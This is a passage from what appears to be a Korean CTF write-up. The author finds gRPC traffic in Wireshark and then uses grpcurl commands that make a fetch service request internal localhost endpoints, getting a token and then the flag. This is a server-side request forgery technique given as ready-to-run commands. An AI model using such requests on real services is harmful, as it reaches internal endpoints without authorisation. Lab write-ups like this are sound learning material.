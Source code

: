 `wireshark`에 `.proto`파일을 등록하고 `grpc`를 검색하여 패킷을 발견하여 따라갔습니다.

![패킷2](/assets/img/posts/2025-07-07-4.png){: style="max-width: 100%; height: auto;"}

`grpcurl`을 이용해 패킷을 보낸것으로 보이며, `grpc`로 링크를 줄 시, 해당 링크에 접속해 응답값을 주는 모양입니다.

`grpcurl`을 이용해 웹서버의 `flag`를 요청했습니다.

```bash
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

grpcurl -plaintext -proto fetch.proto -d "{\"url\":\"http://localhost:80/token\",\"method\":\"GET\",\"headers\":{}}" 1.2.3.4:6666 fetch.FetchService/FetchURL

grpcurl -plaintext -proto fetch.proto -d "{\"url\":\"http://localhost:80/flag\",\"method\":\"POST\",\"headers\":{\"Content-Type\":\"application/x-www-form-urlencoded\"},\"body\":\"token=REDACTED\"}" 1.2.3.4:6666 fetch.FetchService/FetchURL
```

## Crackme
